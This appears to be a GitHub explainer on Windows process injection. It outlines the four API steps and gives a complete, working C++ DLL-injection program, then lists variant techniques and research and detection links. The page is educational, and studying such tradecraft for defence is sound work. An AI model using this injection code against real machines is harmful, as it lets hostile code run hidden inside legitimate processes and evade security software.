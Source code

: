 # Process Injection

Process injection is a technique used by attackers to execute arbitrary code within the address space of another process. This allows the malicious code to run under the context of a legitimate process, which can help it evade detection by security software and gain elevated privileges.

## How Process Injection Works

A basic process injection technique will include the following steps.

1. **Opening a Target Process:** The attacker identifies and opens a handle to the target process using functions like `OpenProcess`.
2. **Allocating Memory in the Target Process:** The attacker allocates memory within the target process using `VirtualAllocEx`.
3. **Writing Malicious Code to the Allocated Memory:** The malicious code is written into the allocated memory using `WriteProcessMemory`.
4. **Creating a Remote Thread:** Finally, the attacker creates a remote thread to execute the malicious code within the context of the target process using `CreateRemoteThread`.

### Sample Implementation

Below is a simplified example of process injection in C++ on Windows:

```cpp
#include <windows.h>
#include <iostream>

int main() {
    // The process ID (PID) of the target process
    DWORD pid = 1234; // Example PID
    const char* dllPath = "C:\\path\\to\\malicious.dll";

    // Step 1: Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        std::cerr << "Failed to open process" << std::endl;
        return 1;
    }

    // Step 2: Allocate memory in the target process
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_COMMIT, PAGE_READWRITE);
    if (!pRemoteMemory) {
        std::cerr << "Failed to allocate memory in target process" << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    // Step 3: Write the DLL path to the allocated memory
    if (!WriteProcessMemory(hProcess, pRemoteMemory, dllPath, strlen(dllPath) + 1, NULL)) {
        std::cerr << "Failed to write to target process memory" << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Step 4: Create a remote thread to load the DLL
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, pRemoteMemory, 0, NULL);
    if (!hThread) {
        std::cerr << "Failed to create remote thread" << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    std::cout << "DLL injected successfully" << std::endl;
    return 0;
}
```

### Other Variant Process Injection Techniques

While the above example demonstrates a basic form of process injection, several other techniques exist, each with unique methods and purposes.

- APC Injection
- [AtomBombing Injection](https://www.fortinet.com/blog/threat-research/atombombing-brand-new-code-injection-technique-for-windows)
- [Breaking BaDDEr](https://modexp.wordpress.com/2019/08/09/windows-process-injection-breaking-badder/)
- [CTray](https://modexp.wordpress.com/2018/08/26/process-injection-ctray/)
- [PROPagate](https://www.hexacorn.com/blog/2017/10/26/propagate-a-new-code-injection-trick/)
- [CLIPBRDWNDCLASS](http://www.hexacorn.com/blog/2018/11/19/propagate-yet-another-follow-up-hypothetical-clipboard-execution-version/)
- ...

## Resource

- https://github.com/odzhan/injection
- https://github.com/theevilbit/injection
- https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process
- https://www.elastic.co/blog/how-hunt-detecting-persistence-evasion-com
- https://github.com/AzureGreen/InjectCollection
- https://github.com/SafeBreach-Labs/pinjectra
- https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf
- https://unprotect.it/category/process-manipulating/
